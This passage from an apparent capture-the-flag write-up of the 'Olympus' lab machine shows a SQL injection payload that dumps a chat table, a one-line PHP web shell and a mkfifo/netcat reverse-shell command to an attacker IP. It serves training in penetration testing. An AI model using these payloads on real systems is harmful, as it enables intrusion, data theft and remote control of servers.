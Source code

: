 Taking a second look at the tables inside of the `olympus` database we see a `chats` table

To retreive the columns of the `chats` table we can use the following command

```
search=x' UNION ALL SELECT 1,2,3,concat(column_name),5,6,7,8,9,10 FROM information_schema.COLUMNS WHERE table_name='chats'-- -&submit=
```

The two columns that we will be dumping are: `msg` & `file`

```
search=x' UNION ALL SELECT 1,2,3,concat(msg, ':', file),5,6,7,8,9,10 FROM chats-- -&submit=
```

From the data that we dumped we can see the new name of the `prometheus_password.txt` fle: `47c3210d51761686f3af40a875eeaaea.txt`

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/6d9c85e7-f758-4f40-b7c7-c6ff9c9aa00f" width="750" /></p>

Knowing that we can find the real name of the file that we upload, assuming there are no content filters, we should be able to get a shell

```bash
$ cat phprce.php
<?php
    echo system($_REQUEST["cmd"]);
?>
```

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/3b237540-b445-4ad6-8364-03ba84701409" /></p>

We see that the upload goes through, now we need to do the SQL injection once again to dump the `msg` & `file` columns.

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/f7641bd1-e0eb-48f5-8682-e2d97d395636" width="750" /></p>

Our new file is `fa8e5ef46fad7138483709a5f1cc8113.php`

Now we can find the file by navigating to `http://chat.olympus.thm/uploads/fa8e5ef46fad7138483709a5f1cc8113.php?cmd=id`

I will be capturing this request with burp's repeater and changing the request type to `POST`, this makes the commands easier to input and read personally.

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/a2357130-e4ef-4f8b-ac16-8538ce96b41d" width="750" /></p>

We now have command execution and can get a reverse shell

```
cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.13.5.204+9001+>/tmp/f
```

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/bf55c3ac-a474-497d-b4ad-0b89c4320a96" /></p>

<br><br>

## Internal
